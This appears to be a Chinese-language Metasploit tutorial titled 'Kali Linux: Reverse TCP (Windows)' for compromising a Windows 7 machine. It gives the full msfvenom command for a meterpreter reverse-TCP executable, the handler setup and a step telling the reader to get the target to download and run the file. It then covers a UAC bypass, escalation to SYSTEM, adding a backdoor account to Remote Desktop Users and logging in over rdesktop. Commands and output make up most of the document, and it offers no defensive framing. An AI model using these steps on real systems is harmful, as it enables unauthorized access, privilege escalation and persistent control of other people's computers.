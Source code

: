 ```yaml
---
title: Kali Linux - Reverse TCP (Windows)
---
```


# Kali Linux: Reverse TCP (Windows)

目标系统：Windows 7 专业版，Service Pack 1，64位。

工具：Kali Linux

1. 使用`msfvenom`生成payload

   ```shell
   $ msfvenom -p windows/x64/meterpreter/reverse_tcp -b "\x00" LHOST=192.168.15.5 LPORT=4444 -i 5 -f exe -o ./some-fancy-name.exe
   ```

2. 打开`msfconsole`，运行以下命令

   ```shell
   msf > use exploit/multi/handler
   msf exploit(handler) > set LHOST 192.168.15.5
   msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   msf exploit(handler) > set LPORT 4444
   msf exploit(handler) > exploit
   msf exploit(handler) > back
   ```

3. 想办法让目标下载运行你的payload。这时你会在`msfconsole`中得到提示建立连接，并得到session号（一般是从1号开始）。

4. 进入会话，得到目标系统的`meterpreter`。假设对方是用`Tony`用户打开的payload。

   ```shell
   msf > sessions -i 1
   meterpreter > getuid
   Server username: Tony-PC\Tony
   ```

5. 提权，获得系统权限。

   ```shell
   meterpreter > back
   msf > use exploit/windows/local/bypassuac
   msf exploit(bypassuac) > set SESSION 1
   msf exploit(bypassuac) > set LPORT 4445
   msf exploit(bypassuac) > exploit
   msf exploit(bypassuac) > back
   ```

6. 成功后，提示建立Session 2。进入Session 2，并进行提权。

   ```shell
   msf > sessions -i 2
   meterpreter > getsystem
   meterpreter > getuid
   Server username: NT AUTHORITY\SYSTEM
   ```

7. 获得远程桌面，首先创建账号，并将账号加入远程桌面用户组。

   ```shell
   meterpreter > use incognito
   meterpreter > add_user victim password
   meterpreter > shell
   C:\Windows\system32> net localgroup "Remote Desktop Users" victim /add
   C:\Windows\system32> exit
   ```

8. 再打开一个terminal，运行`rdektop`。

   ```shell
   $ rdesktop 192.168.15.7
   ```

9. 此时，看到目标上有两个用户，其中一个是victim，点击登录，输入密码`password`。此时如果对方正在使用，会得到一个提示框“victim”用户正在试图远程登录。如果对方点“确定”，对方会退出，你就会进入目标的桌面。

